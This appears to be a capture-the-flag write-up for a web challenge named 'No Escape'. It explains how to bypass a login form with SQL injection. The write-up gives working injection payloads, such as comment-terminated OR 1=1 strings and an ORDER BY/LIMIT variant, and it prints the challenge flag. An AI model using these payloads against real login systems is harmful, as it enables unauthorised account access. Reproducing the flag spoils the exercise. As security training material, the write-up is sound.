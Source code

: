 # No Escape

## Web Security -- 60 points

### Description

Since in-person events are currently banned, some magician we've never heard of is trying to sell us on the idea of a "digital" magic show where the magician logs in using an impossible password. For added assurances, one lucky audience member is able to login and see the hash of the password as proof the password is impossible. We're willing to bet the secret to this magic trick is not all that complicated. http://challenge.acictf.com:43248/

### Hints

* Inexperienced web application developers don't always esacpe/sanitize user inputs in there database query strings. This frequently allows [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) attacks that result in unintended behavior.
* The developer was pretty new, so just causing the query to error out may get you more information for the exploit. What happens when you use a single ' or " in each of the login fields?
* You'll need to login as a specific user. If you're new to SQL syntax, [this](https://www.w3schools.com/sql/sql_where.asp) might be useful resource for understanding the intended query and how you can manipulate it for your purposes.


### Write-up

So you need to log in. Start by just putting `'` as both username and password. You then get this error:

```
Oops! It looks like the following query caused an error...
SELECT username FROM users WHERE username = ''' AND pwHash = '265fda17a34611b1533d8a281ff680dc5791b0ce0a11c25b35e11c8e75685509'
```

So you now know the query. Try the very traditional `admin' OR 1=1; -- ` and you log in, but you do not get the flag. Instead, you get `Welcome admin! The "hash" for account 'houdini' is 'Not a hash'.`. Ok, so you need to log in as 'houdini'. So lets try this as 'houdini' with `houdini' OR 1=1; -- `. You get the same `Welcome admin! The "hash" for account 'houdini' is 'Not a hash'.`. So this is still matching the same user as before based on the 'Welcome admin!'. The issue is the `OR 1=1` part is just making and, mostlikely, returning the first match and 'admin' is early in the alphabet. Lets just try to sort with `houdini' OR 1=1 ORDER BY username DESC LIMIT 1; -- `. And that works!

`Welcome Houdini, here's your flag: ACI{6a4352fb5adfa2bbccbe3a09965}`.

Note:
So I was super dumb and missed the obvious (but I noticed it doing this write-up)! Just do not do the `OR 1=1`. You can just log in with `houdini'; -- `. Problem solved.



`houdini' OR 1=1 ORDER BY username DESC LIMIT 1; -- `
